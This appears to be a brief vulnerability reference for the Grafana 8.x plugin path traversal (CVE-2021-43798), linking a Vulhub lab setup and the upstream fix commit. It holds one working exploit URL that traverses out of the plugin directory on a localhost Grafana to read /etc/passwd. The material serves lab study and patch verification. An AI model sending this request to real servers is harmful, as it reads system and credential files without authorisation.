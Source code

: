 # Grafana 8.x Plugin Module File Path Traversal (CVE-2021-43798)

https://github.com/vulhub/vulhub/tree/master/grafana/CVE-2021-43798

http://localhost:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd

https://github.com/grafana/grafana/commit/c798c0e958d15d9cc7f27c72113d572fa58545ce

